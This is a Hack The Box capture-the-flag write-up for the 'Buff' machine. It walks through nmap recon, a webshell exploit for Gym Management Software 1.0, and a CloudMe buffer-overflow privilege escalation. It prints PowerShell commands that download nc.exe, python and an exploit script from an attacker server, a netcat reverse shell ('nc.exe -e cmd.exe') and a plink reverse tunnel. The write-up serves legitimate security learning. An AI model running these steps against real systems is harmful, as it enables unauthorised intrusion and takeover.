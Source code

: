 # Hack The Box - Buff (machine)

## Initial recon

Let's start by gathering some basic info. Looking at the machine's profile on HTB, I can see it's on ip address `10.10.10.198`, so let's try to see what ports are open there using `nmap`:
```
$ nmap -sC -sV 10.10.10.198
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-12 07:41 EST
	Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
	Nmap done: 1 IP address (0 hosts up) scanned in 4.16 seconds
```
Ok, not much information there, let's try following `nmap`'s suggestion:
```
$ nmap -sC -sV -Pn 10.10.10.198
	Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-12 07:43 EST
	Nmap scan report for 10.10.10.198
	Host is up (0.37s latency).
	Not shown: 999 filtered ports
	PORT     STATE SERVICE VERSION
	8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
	|_http-open-proxy: Proxy might be redirecting requests
	|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
	|_http-title: mrb3n's Bro Hut
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 58.63 seconds
```
After waiting for some time we can see the machine has a http server listening on port `8080`, unfortunately there's no `ssh` or anything, so let's see what we can do. One thing I'll do in the background while I manually explore the website is run gobuster like so: `gobuster -w dirbuster-directory-list-2.3-medium.txt dir -u http://10.10.10.198:8080/` in case it finds anything useful. 

While `gobuster` does it's thing, let's continue to explore the website: asking for both `/robots.txt` and `/sitemap.xml` results in `404`, so we're left with randomly clicking links and hoping for the best. Luckily, we find one small legend at the bottom of the 'about' page: `Made with Gym Management Software 1.0`. Of course we already knew the versions of apache, PHP and so son, but a quick search online did not get us any useful vulnerabilities, so maybe let's try searching for this one. And indeed, we find many useful vulnerabilites, after some reading and some trial and error I settled for [this one](https://www.exploit-db.com/exploits/48506), which should provide us with a webshell.

## Gaining a foothold

To begin with, the exploit previously linked was made with python 2, so let's port it to python 3 as it doesn't seem to work out of the box (the changes needed are very minor anyways). As promissed, we do get shell, although not a very comfortable one (can't see errors, can't `cd` out of the directory, etc.). At this stage we will need to send files to the victim machine, so let's fire up a http server with python so that we can download needed files from our machine. Let's start by sending `nc.exe`, we'll be listening for a connection on port 1234 and once netcat is downloaded on the victim machine we'll connect to it. All of this we'll do as follows:

- On our host:
```
$ nc -lvp 1234
```

- On the victim: 
```
> powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://myServer/nc.exe', 'nc.exe')
> nc.exe -nv myHost 1234 -e cmd.exe
```

And done, we now have command line via netcat and we're logged in as a local user:

```
> whoami
	buff\shaun
```

and of course we can navigate to the user's desktop directory to get the user's hash and notify HTB that we owned the user.

## Privilege escalation

Now that we're inside, we should start looking for ways to get administrator privileges. First, let's gather some system info (which we can do with the `systeminfo` command):

```
> systeminfo
	Host Name:                 BUFF
	OS Name:                   Microsoft Windows 10 Enterprise
	OS Version:                10.0.17134 N/A Build 17134
	OS Manufacturer:           Microsoft Corporation
	OS Configuration:          Standalone Workstation
	OS Build Type:             Multiprocessor Free
	Registered Owner:          shaun
[...]
```

and also the available users:
```
> net user
	User accounts for \\BUFF
	
	-------------------------------------------------------------------------------
	Administrator            DefaultAccount           Guest                    
	shaun                    WDAGUtilityAccount       
	The command completed successfully.
```

So we have the version of windows (10.0.17134 a.k.a. 1803) and we know we're the only non-privileged user on the system. This is the point where I got stuck for so much more time than I'd like to admit searching for windows exploits which could be of use in this machine, and found some very intereseting interesintg results: [like](https://medium.com/tenable-techblog/uac-bypass-by-mocking-trusted-directories-24a96675f6e) [these](https://www.opswat.com/blog/privilege-escalation-to-system-user-on-windows-10-using-cve-2019-1405-and-cve-2019-1322) (two separate links there), but couldn't get them to work for various reasons. After banging my head against the wall for a (not so little) while, I noticed a suspicious looking file: `C:\Users\shaun\Donwloads\CloudMe_1112.exe`, which I had seen at first and didn't give it much thought, but after a quick search I've found it was [actually pretty important](https://www.exploit-db.com/exploits/48389). Of course this exploit requires some tweaking as well, but it basically lets us run any arbitrary code (such as a reverse shell) on the machine with administrative privileges. Given that we want the exploit to trigger a remote shell, from now on when running the exploit we'll have to make sure we're listening on the specified port like so: `nc -lvp 4321`.

The exploit for `CloudMe` involves sending a malicious payload to the service, but that service isn't being exposed to the outside world, so we've got two options:
- Use `plink.exe` to forward a port through ssh on our machine to the victim and run the exploit locally on the attacker's side
- Somehow get the script to run on the victim machine

### Using plink

Let's quickly try out the first one (seems easier to send on file than the whole of python to the machine). We need to download `plink.exe` using the aforementioned method and do something like `plink.exe -l userName -pw password -P port -N -R myHost:myport:127.0.0.1:8888 myHost` (both `myHost` and `myPort` refer to the attacker's IP and the desired port on the attacker's machine as well), it's important to note that `CloudMe` will be listening on port `8888` on the victim's side, and also that HTB blocks outbound connections to port `22` from these machines for security reasons, so chaning the ssh port is required (though probably a bad idea). This process seemed to work when 'forwarding' the `8080` port to test if it was working (i.e. running the previous command but with port 8080 allows us to see the victim's webpage by typing `localhost:myport` on our web browser), but for some reason it didn't work when running the exploit. So let's put this method on hold for a while and try out the other one.

### Using python

Much to my surprise, getting python to run on the victim machine is actually pretty easy, given the existence of [python's embeddable zip file](https://www.python.org/ftp/python/3.9.0/python-3.9.0-embed-amd64.zip). So we just need to send the python zip, the exploit script and unpack python using:
```
> powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://myServer/python.zip', 'python.zip')
> powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://myServer/script.py', 'script.py')
> powershell -command "Expand-Archive python.zip"
> python\python script.py
```
After runnning the exploit locally I got: `ConnectionRefusedError: [WinError 10061] No connection could be made because the target machine actively refused it`, so it seems the forwarding with `plink.exe` from the previous exploit might have been working after all, and the problem could have been laying somewhere else.

After some retries, and running the script again a few times, I finally managed to get a shell with administrative privileges.

```
> whoami
	buff\administrator
```

Thas means we can finally move to the administrator's desktop and get the root hash!
